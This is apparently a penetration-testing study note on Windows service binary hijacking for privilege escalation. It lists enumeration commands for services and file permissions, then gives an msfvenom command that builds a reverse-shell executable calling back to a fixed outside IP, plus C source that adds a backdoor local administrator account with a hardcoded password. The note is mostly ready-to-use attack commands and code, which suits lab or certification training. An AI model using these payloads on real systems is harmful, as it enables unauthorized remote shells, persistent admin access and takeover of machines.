 #### Service Binary Hijacking

if we have permissions to RW of F on exe of service we can replace it with custom exe that create new user as local admin

- need to check if the service running with high privilege
- don't choose services that running under c:\\windows

tools:
- check running services - won't work when using a network logon such as WinRM or a bind shell
- **check not running services as well!**
```
# powershell
Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

# cmd
wmic service get name,displayname,pathname,startmode |findstr /i "auto"


wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\Windows\\"

# evil-winrm
services
```

- check under which user this service is running 
```
sc.exe qc <service name>
```

- check permissions on the exe
```
# File permission
icacls "<exe_path>

# Folder Permission
icacls "<folder_path>"
```

- revers shell as the running service user
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.221 LPORT=9999 -f exe -o sys.exe
```

- or add user as local admin script
```
#include <stdlib.h>

int main ()
{
  int i;
  
  i = system ("net user dave2 password123! /add");
  i = system ("net localgroup administrators dave2 /add");
  i = system("powershell -Command \"Add-LocalGroupMember -Group 'Remote Desktop Users' -Member 'dave2'\"");
  
  return 0;
}
```
